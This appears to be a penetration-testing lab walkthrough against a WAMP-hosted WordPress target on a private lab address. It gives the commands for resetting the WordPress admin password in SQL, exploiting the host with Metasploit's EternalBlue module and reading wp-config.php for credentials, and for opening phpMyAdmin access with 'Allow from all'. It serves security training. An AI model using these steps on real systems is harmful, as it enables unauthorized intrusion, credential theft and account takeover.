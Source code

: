 ![](.gitbook/assets/image-20230424124316970.png)

- Change `admin` WordPress user's password

> ❗ **DO NOT Change passwords in a real pentest**

```bash
UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';
```

- Access via browser
  - `http://10.2.26.45:8585/wordpress/wp-admin`

![](.gitbook/assets/image-20230424124518055.png)

- Try to gain access to **phpMyAdmin** using MSF
  - Access the target through SMB and modify phpMyAdmin configuration file

```bash
# Open the MSF tab
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.2.26.45
run
```

```bash
sysinfo
```

- Move into the `wamp` folder

```bash
cd /
cd wamp
dir
cd www\\wordpress
cat wp-config.php
```

![](.gitbook/assets/image-20230424124543517.png)

- Change WordPress `admin` password

```bash
cd C:\\wamp\\alias
download phpmyadmin.conf

# In another terminal modify the file
vim /root/Desktop/phpmyadmin.conf
# modify it by deleting the lines under "AllowOverride all" and insert
	Allow from all

# Write and close
```

![phpmyadmin.conf](.gitbook/assets/image-20230424125503330.png)

